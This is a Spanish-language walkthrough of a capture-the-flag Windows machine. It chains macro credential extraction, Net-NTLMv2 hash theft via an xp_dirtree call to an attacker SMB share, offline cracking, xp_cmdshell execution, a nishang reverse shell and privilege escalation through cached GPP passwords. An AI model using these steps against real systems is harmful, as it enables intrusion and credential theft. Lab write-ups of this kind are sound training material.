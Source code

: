---------------
- Tags: #nishang #macro #xp-dirtree #mssql #gpp-files #NTLVMv2 #power-up
---------------
## Tecnicas utilizadas

- Macro Inspection (Olevba2)  
- MSSQL Hash Stealing [Net-NTLMv2] (xp_dirtree)  
- Abusing MSSQL (xp_cmdshell)  
- Cached GPP Files (Privilege Escalation)

---------------------
## Procedimiento

![[Pasted image 20230610194024.png]]

Empezamos escaneando el smb con **CrackMapExec** para ver ante que nos estamos enfrentando. Con **smbclient** podemos listar los recursos compartidos a nivel de red en el servidor. Con **smbmap** listamos los recursos a los que tenemos acceso.
Listando el contenido en el interior de la carpeta, podemos observar que existe un archivo *.xlsm*. Viendo su contenido, encontramos que no contiene nada, pero nos da un aviso de que conrenido una macro. Podemos inspeccionar el archivo con **olevba** para ver las macros. En la macro encontramos unas credenciales para conectarnos a *mssql*. 
Nos conectamos a la base de datos con **mssqlclient.py** que viene con *impacket*, tenemos que utilizar la bandera 
*--windows-auth* ya que a nivel de dominio el usuario no es valido, si no en la propia maquina.
Verificamos si esta habilitado el *xp_cmd* para ejecutar comandos de manera remota y no nos dice nada.

Podemos intentar ejecutar un servidor con *smb-server* para que se antentifiquen contra nosotros. Tenemos que utilizar *xp_dirtree*. La sintaxis seria la siguiente

	SQL> xp_dirtree "\\ip\\folder\"

Con el hash dumpeado, podemos intentar crackearla de manera offline con *john*. Con las credenciales creakeadas intentamos autenticanos denuevo en *mssql*. Con este nuevo usuario, se nos permite la ejecucion remota de comandos con *xp_cmdshell*. Podemos entablarnos una reverse shell con el repositorio de *nishang*.
Una ves dentro podemos hacer uso del repositorio de *PowerSploit/Privesc*  para encontrar formas potenciales de escalar privilegios Descargamos el archivo *PowerUp.ps1*, con el editor de texto lo abrimos y al final del script colocamos *invoke-AllChecks* una vez hecho esto, descargamos e interpretamos el script. El script nos muestra una contraseña en texto claro que se encontraba en unos archivos de cache, esta credencial es para el usuario Administrador.
Si intetamos conectarnos con *smb* con las credenciales vemos que nos dice **Pwned!** esto quiere decir que podemos ejecutar *psexec* para conectarnos a la maquina remotamente. O, tambien podemos conectanos con evil-winrm.